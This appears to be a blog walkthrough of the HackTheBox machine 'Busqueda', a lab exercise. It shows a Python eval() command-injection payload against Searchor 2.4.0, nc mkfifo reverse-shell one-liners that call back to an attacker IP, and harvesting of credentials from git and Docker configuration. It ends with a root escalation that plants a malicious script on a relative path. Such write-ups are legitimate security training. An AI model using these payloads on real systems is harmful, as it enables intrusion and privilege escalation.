 ```yaml
---
layout: post
title: "HackTheBox: Busqueda"
image: /assets/thumbnails/busqueda-thumbnail.png
---
```


> This is the walkthrough of the machine Busqueda on HackTheBox. It is a beginner-friendly challenge that invloves host and subdomain enumeration, source code inspection and payload generation. While completing this box you will learn to pay close attention to details and think about your next step.

---
## Enumeration

Nmap shows port 80 HTTP open. When visiting `http://10.10.11.208:80/` we get redirected to searcher.htb. Since this is a CTF the domain name searcher.htb is not inserted in the global DNS so it cannot be resolved. To work around this, we can add the domain to our /etc/hosts file (I am working with a Linux based attacker host).

{% include explanation-box.html content="DNS (Domain Name System) is, generally speaking, a network of servers around the world that translates domain names (e.g Facebook.com) to numerical IP addresses. If a domain name isn't registered, we can use the /etc/hosts file (present in Linux based systems) to resolve a domain name to an IP address manually." %}

Our /etc/hosts file should look like this once we add the searcher.htb domain.

```
127.0.0.1	localhost
127.0.1.1	kali

::1		localhost ip6-localhost ip6-loopback
ff02::1		ip6-allnodes
ff02::2		ip6-allrouters

10.10.11.208  searcher.htb
```

Now we can request searcher.htb and we can see the real page. It looks like some sort of a search engine aggregator. 

![searchor](/assets/img/projects-img/busqueda-search-bar.PNG){: class="center-image"}

We can find the version at the bottom of the page: Searchor 2.4.0. A quick search for "Searchor 2.4.0 exploit" will lead us to this [page](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection){:target="_blank"}. The author of the exploit neatly explains that there is a command injection vulnerability in the ```eval()``` function of the search functionality. Here we could simply run the exploit.sh script that is provided by the author but where is the fun in that. Let's dissect the vulnerbility and try to epxloit it manually. 

The search query is passed directly to the ```eval()``` function wihtout any sanitization or validation. The vulnerable code is:

```python
        url = eval(
            f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
        )
```

Therefore, if we use a payload like ```',__import__('os').system('whoami'))#``` the executed server-side code will be:

```python
        url = eval(
            f"Engine.{engine}.search('{',__import__('os').system('whoami'))#}', copy_url={copy}, open_web={open})"
        )
```

We can run this payload inside the search bar and if we see the name of the user who the server is running as (svc), then we can confirm the vulnerability. We can then experiment with different reverse shells from [revshells.com](https://www.revshells.com/){:target="_blank"} and put them inside our payload. Most python shells should do th work but I like using the nc mkfifo one. Thus my final payload is:

``` 
',__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.149 1337 >/tmp/f'))#
``` 

Run it and catch the incoming connection with a listener ```nc -lnvp 1337```.

## Privilege Escalation

As mentioned previously, we land as the user svc. This is the user which the server process is running as. We can upgrade our shell with ```python3 -c 'import pty;pty.spawn("/bin/bash");'```. We can enumerate the svc's home directory carefully using ```ls -la``` to reveal hidden files. We find the flag and we also see an interesting .gitconfig file which seems to be a git configuration file for an application. This means there will probably be more configuration files in the application directory so navigate to /var/www/app. With ```ls -la``` we discover the hidden directory .git with a configuration file inside it that contains credentials. 

(I took these screenshots with my browser open in the background so please excuse me.)

![git-creds](/assets/img/projects-img/busqueda-git-creds.PNG){: class="center-image"}

These credentials are obviously for the ```gitea.searcher.htb``` subdomain. Before we add it to /etc/hosts and then open it in our browser (just like we did before), let's run ```sudo -l``` and try our newly obtained password. This command will list all commands that we can run as other users, including root.

![sudo-l](/assets/img/projects-img/busqueda-sudo-l.PNG){: class="center-image"}

Okay, now we can run ```sudo /usr/bin/python3 /opt/scripts/system-checkup.py```. If we try to read the script source code, we get "Access Denied". If we run the script, it provides the following options:

![system-checkup-options](/assets/img/projects-img/busqueda-system-checkup-options.PNG){: class="center-image"}

The script allows us to list the running Docker containers and to inspect them. We see there are currently 2 containers running:

![docker-ps-local-dbs](/assets/img/projects-img/busqueda-docker-ps-local-dbs.PNG){: class="center-image"}

We can now inspect them. Running ```sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect``` will show us instructions on how to use the command. We need to specify format and container-name. We can consult the [Docker docs](https://docs.docker.com/config/formatting/){:target="_blank"} to understand how to correctly specify the format. Let's use json:

![gitea-docker-container-info](/assets/img/projects-img/busqueda-gitea-docker-container-info.PNG){: class="center-image"}

Inside the gitea dump we find some credentials in the fields ```GITEA__database__USER=gitea``` and ```GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh```. We can use these credentials to log in to the local SQL server:

```bash
mysql -u gitea -pyuiu1hoiu4i5ho1uh -h 127.0.0.1 -P 3306
```

While the gitea DB does not reveal anything directly exploitable, in the user table we do find an administrator email for the gitea subdomain: adminsitrator@gitea.searcher.htb. 

It seems like we have what we need so let's add ```gitea.searcher.htb``` to /etc/hosts and open it in the browser.

### gitea.searcher.htb

We are initially greeted by a login page. If we try logging in with the credentials found in the gitea container dump, we will not succeed. However, we remember that we also found an administrator user email for this subdomain. So let's try the username administrator with the password from the gitea dump. And indeed, the authentication is successful.

Once we are logged in, we can see a few scripts in the repository including ```system-checkup.py```. Essentially, we can now view its source code and look for any vulnerabilities. Let's inspect the code for the ```system-checkup.py``` script. 

![full-checkup-call](/assets/img/projects-img/busqueda-full-checkup-call.PNG){: class="center-image"}

The script calls the ```full-checkup.sh``` script but does so via a relative path. 

{% include explanation-box.html content="An absolute path specifies the whole path to a file from the root, e.g /opt/scripts/full-checkup.sh whereas the relative path location or value starts with the current or present working directory. Basically, if we are in the /home/svc/ directory and we call ./full-checkup.sh the file called will be /home/svc/full-checkup.sh" %}

Therefore, all we need is a malicious ```full-checkup.sh``` hosted in a directory that is writeable by our user (like /home/svc). We could go about this in a few ways. On the one hand, we can simply connect to the box via ssh with creds svc:jh1usoih2bkjaspwe92 which will allow us to use the ```vim``` editor without any problems.  On the other hand we could create the malicious file on our attacking host, then serve a simple python http server hosting the malicious file, and use ```wget``` from the victim box to download the file. I personally decided to go the easiest way and just connect via ssh, and create the file locally. Use the ```vim full-checkup.sh``` command to open the vim editor and create a new file in the /home/svc directory. We can use multiple payloads but I decided to just use the same reverse shell I used previously. The only thing we will add is a shebang at the top so the Unix interpreter knows how to interpret the rest of the script. Therefore my ```full-checkup.sh``` looks like this:

```bash
#!/bin/sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.149 1337 >/tmp/f
```
Start a listener on your attacking machine and then run ```sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup```. Run the command from the /home/svc directory. And we are in.

![got-root](/assets/img/projects-img/busqueda-got-root.PNG){: class="center-image"}
